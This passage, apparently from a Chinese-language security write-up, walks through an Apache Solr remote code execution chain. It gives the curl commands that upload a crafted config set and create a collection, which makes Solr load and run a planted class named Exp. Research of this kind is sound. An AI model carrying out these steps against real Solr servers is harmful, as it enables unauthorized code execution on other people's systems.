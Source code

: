 ```plain
<valueSourceParser name="myfunc" class="zk_backup_0.configs.conf1.Exp" />
```

[![](assets/1708941329-f3bf1c7544e759ba5265a094e2dbba6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224957-a8f4db82-c823-1.png)

打包上传，命名为`conf2`

```plain
rm Exp.class conf1.zip
zip -q -r conf2.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf2.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf2"
```

[![](assets/1708941329-60479253e88b2f7883d6c0effdde8ddc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225006-adf663d0-c823-1.png)

### 用`conf2`创建`collection2`

```plain
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection2&numShards=1&replicationFactor=1&wt=json&collection.configName=conf2"
```

Collection 创建过程中会将`SOLR_HOME/collection2_shard1_replica_n1/lib/`下的 jar 包或者一级子目录作为 URLClassLoader 的 urls。并且会加载`solrconfig.xml`中配置的类，从而导致`zk_backup_0.configs.conf1.Exp`类的静态代码被执行

[![](assets/1708941329-58145994ecb5475957f7e89ce24e3e7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225019-b5d0bd94-c823-1.png)

[![](assets/1708941329-5cb34ad6a2bfdedbb227bf002d52ef32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210225025-b922953a-c823-1.png)
